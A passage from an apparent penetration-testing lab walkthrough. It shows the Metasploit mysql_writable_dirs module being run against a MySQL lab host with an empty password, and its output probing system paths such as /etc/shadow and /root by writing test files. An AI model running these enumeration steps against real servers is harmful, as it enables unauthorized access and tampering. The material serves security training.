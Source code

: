 ```bash
  Tables: []
- DBName: vendors
  Tables: []
- DBName: videos
  Tables: []
```

![Metasploit - mysql_schemadump](assets/image-20230219160107927.png)

- Use the [`mysql_writable_dirs`](https://www.rapid7.com/db/modules/auxiliary/scanner/mysql/mysql_writable_dirs/) metasploit module to enumerate writable directories.

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_writable_dirs
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set RHOSTS 192.49.51.3
set VERBOSE false
set PASSWORD ""
exploit
```

```bash
[!] 192.49.51.3:3306 - For every writable directory found, a file called UlxAUnoc with the text test will be written to the directory.
[*] 192.49.51.3:3306 - Login...
[*] 192.49.51.3:3306 - Checking /tmp...
[+] 192.49.51.3:3306 - /tmp is writeable
[*] 192.49.51.3:3306 - Checking /etc/passwd...
[!] 192.49.51.3:3306 - Can't create/write to file '/etc/passwd/UlxAUnoc' (Errcode: 20)
[*] 192.49.51.3:3306 - Checking /etc/shadow...
[!] 192.49.51.3:3306 - Can't create/write to file '/etc/shadow/UlxAUnoc' (Errcode: 20)
[*] 192.49.51.3:3306 - Checking /root...
[+] 192.49.51.3:3306 - /root is writeable
[*] 192.49.51.3:3306 - Checking /home...
[!] 192.49.51.3:3306 - Can't create/write to file '/home/UlxAUnoc' (Errcode: 13)
[*] 192.49.51.3:3306 - Checking /etc...
[!] 192.49.51.3:3306 - Can't create/write to file '/etc/UlxAUnoc' (Errcode: 13)
[*] 192.49.51.3:3306 - Checking /etc/hosts...
[!] 192.49.51.3:3306 - Can't create/write to file '/etc/hosts/UlxAUnoc' (Errcode: 20)
[*] 192.49.51.3:3306 - Checking /usr/share...
[!] 192.49.51.3:3306 - Can't create/write to file '/usr/share/UlxAUnoc' (Errcode: 13)
[*] 192.49.51.3:3306 - Checking /etc/config...
[!] 192.49.51.3:3306 - Can't create/write to file '/etc/config/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /data...
[!] 192.49.51.3:3306 - Can't create/write to file '/data/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /webdav...
[!] 192.49.51.3:3306 - Can't create/write to file '/webdav/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /doc...
[!] 192.49.51.3:3306 - Can't create/write to file '/doc/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /icons...
[!] 192.49.51.3:3306 - Can't create/write to file '/icons/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /manual...
[!] 192.49.51.3:3306 - Can't create/write to file '/manual/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /pro...
[!] 192.49.51.3:3306 - Can't create/write to file '/pro/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /secure...
[!] 192.49.51.3:3306 - Can't create/write to file '/secure/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /poc...
[!] 192.49.51.3:3306 - Can't create/write to file '/poc/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /pro...
[!] 192.49.51.3:3306 - Can't create/write to file '/pro/UlxAUnoc' (Errcode: 2)
[*] 192.49.51.3:3306 - Checking /dir...
```